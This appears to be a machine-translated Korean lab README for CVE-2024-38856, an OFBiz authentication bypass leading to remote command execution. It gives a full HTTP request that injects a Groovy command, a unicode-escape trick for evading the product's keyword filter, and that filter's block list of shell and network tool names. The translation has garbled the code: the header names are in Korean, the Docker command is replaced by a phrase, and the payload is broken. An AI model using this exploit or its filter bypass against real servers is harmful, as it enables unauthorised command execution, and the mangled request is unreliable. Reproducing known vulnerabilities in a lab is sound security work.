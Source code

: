 # Apache OFBIZ 인증 우회로 인해 RCE가 발생합니다(CVE-2024-38856)
# 이 환경은 window에서 동작합니다.

[ENGLISH(영어 버전)](README_en.md)
[中文版本(중국어 버전)](README.zh-cn.md)


Apache OFBIZ는 오픈 소스 엔터프라이즈 리소스 플래닝(ERP) 시스템입니다. 이 시스템은 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 일련의 엔터프라이즈 애플리케이션을 제공합니다.

이 취약점은 [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467) 의 불완전한 수정으로 인해 발생합니다. Apache OFBIZ 버전 18.12.11에서는 개발자들이 취약점을 수정했다고 생각하지만, 실제로는 이를 악용하는 한 가지 방법만 다루었습니다. Groovy 표현식 주입은 여전히 존재하며 권한이 없는 사용자가 서버에서 임의의 명령을 실행할 수 있도록 합니다.

참고 자료:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7 >
- <https://forum.butian.net/article/524 >
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz >

## 취약한 환경

다음 명령을 실행하여 Apache OfBiz 18.12.14 서버를 시작합니다:

```
도커 구성
```

잠시 기다린 후 'https://localhost:8443/accounting'에서 로그인 페이지를 확인할 수 있습니다.

## 취약성 재현

Groovy 스크립트에서 'id' 명령을 실행하기 위해 다음 요청을 보냅니다:

```
POST /webtools/control/main/ProgramExport HTTP/1.1
호스트: 로컬호스트:8443
수락 인코딩: gzip, 디플레이트, br
수락: */*
Accept-Language: en-US;q=0.9,en;q=0.8
사용자 에이전트: Mozilla/5.0(Windows NT 10.0, Win64, x64) AppleWebKit/537.36(KHTML, Gecko와 같은) Chrome/126.0.6478.127 Safari/537.36
연결: 닫기
캐시 제어: 최대 연령=0
콘텐츠 유형: 멀티파트/폼 데이터; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
콘텐츠 길이: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
콘텐츠 배치: 양식 데이터; 이름="그루비 프로그램"

새 Exception('id'.\\u0065xecute(.text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](1.png)

Apache Ofbiz는 다음 키워드의 사용을 제한하지만, 유니코드 문자인 '\\u0065xecute'를 사용하면 이 제한을 피할 수 있습니다.

```
거부된 WebShellTokens=java., beans, freemarker,<script,javascript,<body,body,<form,<jsp:,<c:out,taglib,<prefix,<%@ 페이지,<?php,execute (,alert(,\\\
%eval,@eval,eval (,runtime, 가져오기, passthru, 쉘_exec, assert, str_rot13, 시스템, decode, include, 페이지,\\
chmod, mkdir, fopen, fclose, 새 파일, upload, getfilename, download, getoutputstring, readfile, iframe, 객체, embed, 온로드, 빌드,\\
python, perl ,/perl, ruby ,/ruby , 프로세스, 기능, 클래스, InputStream, to_server, wget , static,assign, webappPath,\\
ifconfig, route, crontab, netstat, uname, hostname, iptables, whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost, thread, require, gzdeflate,\\
실행, 인쇄, calc, 터치, calculate
```